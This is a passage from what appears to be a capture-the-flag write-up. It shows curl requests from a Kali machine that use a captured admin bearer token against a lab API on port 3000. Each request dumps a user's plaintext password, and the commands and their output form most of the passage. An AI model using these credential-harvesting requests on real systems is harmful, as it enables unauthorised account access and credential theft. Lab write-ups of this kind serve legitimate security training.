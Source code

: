     "ID": "2",
    "name": "Derry",
    "Role": "Web Admin"
  },
  {
    "ID": "3",
    "name": "Yuri",
    "Role": "Beta Tester"
  },
  {
    "ID": "4",
    "name": "Dory",
    "Role": "Supporter"
  }
]
{% endhighlight %}

We can put a username to the path and get additional information.
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.137:3000/users/Admin -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
{
  "name": "Admin",
  "password": "WX5b7)>/rp$U)FW"
}
{% endhighlight %}

Similary, we can achieve credential for other users.
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.137:3000/users/Derry -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
{
  "name": "Derry",
  "password": "rZ86wwLvx7jUxtch"
}

root@kali:~# curl -s http://10.10.10.137:3000/users/Yuri -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
{
  "name": "Yuri",
  "password": "bet@tester87"
}

root@kali:~# curl -s http://10.10.10.137:3000/users/Dory -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDc4MzE1LCJleHAiOjE1Njg1NjQ3MTV9.E7HA6sd-Ck86QnIQh6zLk6IaPZIuSEaunYC-mqgMcJg' | jq
{
  "name": "Dory",
  "password": "5y:!xa=ybfe)/QD"
}
{% endhighlight %}

